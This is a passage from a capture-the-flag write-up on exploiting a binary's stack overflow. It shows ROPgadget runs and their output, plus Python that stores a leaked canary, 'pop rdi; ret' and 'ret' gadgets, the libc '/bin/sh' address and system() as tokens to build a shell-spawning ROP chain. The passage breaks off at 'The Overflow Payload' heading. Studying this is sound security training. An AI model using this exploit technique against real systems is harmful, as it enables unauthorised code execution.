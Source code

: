 ### Finding Gadgets

Using ROPgadget tool:

```bash
┌──(kali㉿kali)-[~/ctf]
└─$ ROPgadget --binary libc.so.6 | grep "pop rdi"
0x000000000010f75b : pop rdi ; ret

┌──(kali㉿kali)-[~/ctf]
└─$ ROPgadget --binary libc.so.6 | grep ": ret$"
0x0000000000026b72 : ret
```

**Why do we need a standalone `ret` gadget?**

Some functions like `system()` require **16-byte stack alignment**. Adding a `ret` before our main chain fixes alignment issues.

### Finding `/bin/sh` String

```python
binsh_addr = next(libc.search(b"/bin/sh\x00"))
```

This searches the libc for the `/bin/sh` string and returns its address.

### Adding ROP Chain as Tokens

**Here's the clever trick:** We store each ROP gadget address as a token!

```python
# Token 107: Canary value (to restore during overflow)
add_token(p64(canary))

# Token 108: ret gadget (stack alignment)
add_token(p64(ret_gadget))

# Token 109: pop rdi; ret gadget
add_token(p64(pop_rdi_gadget))

# Token 110: "/bin/sh" address
add_token(p64(binsh_addr))

# Token 111: system() address
add_token(p64(system_addr))
```

**Why this works:**
- Tokens are 8 bytes (perfect for addresses)
- We can overflow the buffer by selecting these tokens
- They'll be placed on the stack as our ROP chain

---

## The Overflow Payload
